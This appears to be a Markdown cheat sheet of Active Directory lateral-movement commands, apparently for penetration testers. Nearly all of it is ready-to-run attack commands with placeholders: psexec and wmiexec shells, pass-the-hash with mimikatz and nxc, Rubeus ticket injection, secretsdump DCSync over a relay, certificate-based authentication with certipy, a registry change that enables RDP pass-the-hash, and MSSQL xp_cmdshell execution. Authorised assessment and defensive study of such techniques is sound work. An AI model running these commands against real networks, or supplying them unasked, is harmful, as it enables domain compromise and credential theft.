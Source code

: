 ```yaml
---
title: "Lateral Movement"
description: "Lateral Movement techniques and commands for Active Directory security assessment."
---
```

# Lateral Move
## Clear text Password *Admin*{: .highlight}
- Interactive-shell - psexec *Authority/System*{: .highlight}
  - `psexec.py <domain>/<user>:<password>@<ip>`
  - `psexec.exe -AcceptEULA \\<ip>`
  - `psexecsvc.py <domain>/<user>:<password>@<ip>`
- Pseudo-shell (file write and read)
  - `atexec.py  <domain>/<user>:<password>@<ip> "command"`
  - `smbexec.py  <domain>/<user>:<password>@<ip>`
  - `wmiexec.py  <domain>/<user>:<password>@<ip>`
  - `dcomexec.py  <domain>/<user>:<password>@<ip>`
  - `nxc smb <ip_range> -u <user> -p <password> -d <domain> -x <cmd>`
- WinRM *Low access || Admin*{: .highlight}
  - `evil-winrm -i <ip> -u <user> -p <password>`
  - `Enter-PSSession -ComputerName <computer> -Credential <domain>\<user>`
  - `nxc winrm <ip_range> -u <user> -p <password> -d <domain> -x <cmd>`
- RDP *Low access || Admin*{: .highlight}
  - `xfreerdp /u:<user> /d:<domain> /p:<password> /v:<ip>`
- SMB *Search files*{: .highlight}
  - `smbclient.py <domain>/<user>:<password>@<ip>`
  - `smbclient-ng.py -d <domain> -u <user> -p <password> --host <ip>`
- MSSQL *MSSQL*{: .highlight}
  - `nxc mssql <ip_range> -u <user> -p <password>`
  - `mssqlclient.py -windows-auth <domain>/<user>:<password>@<ip>`

## NT Hash
- Pass the Hash
  - MSSQL/PseudoShell PsExec/SMB... *Admin*{: .highlight}
    - `impacket : same as with creds, but use -hashes ':<hash>'`
    - `nxc : same as with creds, but use -H ':<hash>'`
  - `mimikatz "privilege::debug sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash>"` *Admin*{: .highlight}
  - RDP *Low access || Admin*{: .highlight}
    - `reg.py <domain>/<user>@<ip> -hashes ':<hash>' add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin' -vt 'REG_DWORD' -vd '0'`
      - `xfreerdp /u:<user> /d:<domain> /pth:<hash> /v:<ip>`
  - WinRM *Low access || Admin*{: .highlight}
    - `evil-winrm -i <ip> -u <user> -H <hash>`
- Overpass the Hash / Pass the key (PTK) *Admin*{: .highlight}
  - `Rubeus.exe asktgt /user:victim /rc4:<rc4value>`
    - `Rubeus.exe ptt /ticket:<ticket>`
    - `Rubeus.exe createnetonly /program:C:\Windows\System32\[cmd.exe||upnpcont.exe]`
  - `getTGT.py <domain>/<user> -hashes :<hashes>`

## Kerberos
- Pass the Ticket (ccache / kirbi)
  - Convert Format
    - `ticketConverter.py <kirbi||ccache> <ccache||kirbi>`
  - `export KRB5CCNAME=/root/impacket-examples/domain_ticket.ccache` *Admin*{: .highlight}
    - `impacket tools: Same as Pass the hash but use : -k and -no-pass for impacket`
  - `mimikatz kerberos::ptc "<ticket>"`
  - `Rubeus.exe ptt /ticket:<ticket>`
  - `proxychains secretsdump.py -k'<domain>'/'<user>'@'<ip>'`
  - Modify SPN *PassTheTicket*{: .highlight}
    - `tgssub.py -in <ticket.ccache> -out <newticket.ccache> -altservice "<service>/<target>" #pr 1256`

- Aeskey *Admin*{: .highlight}
  - `impacket tools: Same as Pass the hash but use : -aesKey for impacket (and use FQDN)`
  - `proxychains secretsdump.py -aesKey <key> '<domain>'/'<user>'@'<ip>'`

## Socks (relay)
- `proxychains lookupsid.py <domain>/<user>@<ip> -no-pass -domain-sids`
- `proxychains mssqlclient.py -windows-auth <domain>/<user>@<ip> -no-pass` *MSSQL*{: .highlight}
- `proxychains secretsdump.py -no-pass '<domain>'/'<user>'@'<ip>'` *DCSYNC*{: .highlight}
- `proxychains smbclient.py -no-pass <user>@<ip>` *Search files*{: .highlight}
- `proxychains atexec.py  -no-pass  <domain>/<user>@<ip> "command"` *Authority/System*{: .highlight}
- `proxychains smbexec.py  -no-pass  <domain>/<user>@<ip>` *Authority/System*{: .highlight}

## Certificate (pfx)
- unpac the hash
  - `certipy auth -pfx <crt_file> -dc-ip <dc_ip>`
  - `gettgtpkinit.py -cert-pfx <crt.pfx> -pfx-pass <crt_pass> "<domain>/<dc_name>" <tgt.ccache>`
    - `getnthash.py -key '<AS-REP encryption key>' '<domain>'/'<dc_name>'`
- Pass the certificate
  - pkinit
    - `gettgtpkinit.py -cert-pfx "<pfx_file>" ^[-pfx-pass  "<cert-password>"] "<fqdn_domain>/<user>" "<tgt_ccache_file>"`
    - `Rubeus.exe asktgt /user:"<username>" /certificate:"<pfx_file>" [/password:"<certificate_password>"] /domain:"<fqdn-domain>" /dc:"<dc>" /show`
    - `certipy auth -pfx <crt_file> -dc-ip <dc_ip>`
  - schannel
    - `certipy auth -pfx <pfx_file> -ldap-shell`
      - add_computer
        - Set RBCD *RBCD*{: .highlight}
    - `certipy cert -pfx "<pfx_file>" -nokey -out "user.crt"`
      - `certipy cert -pfx "<pfx_file>" -nocert -out "user.key"`
        - `passthecert.py -action ldap-shell -crt <user.crt> -key <user.key> -domain <domain> -dc-ip <dc_ip>`

## MSSQL
- find mssql access
  - `nxc mssql <ip> -u <user> -p <password> -d <domain>` *MSSQL*{: .highlight}
- Users or Computers with SQL admin
- `MATCH p=(u:Base)-[:SQLAdmin]->(c:Computer) RETURN p` *MSSQL*{: .highlight}
- `mssqlclient.py -windows-auth <domain>/<user>:<password>@<ip>`
  - `enum_db`
  - `enable_xp_cmdshell`
    - `xp_cmdshell <cmd>` *Low Access*{: .highlight}
  - `enum_impersonate`
    - `exec_as_user <user>` *MSSQL*{: .highlight}
    - `exec_as_login <login>` *MSSQL*{: .highlight}
  - `xp_dir_tree <ip>` *COERCE SMB*{: .highlight}
  - `trustlink` 
    - `sp_linkedservers`
      - `use_link` *MSSQL || Trust*{: .highlight}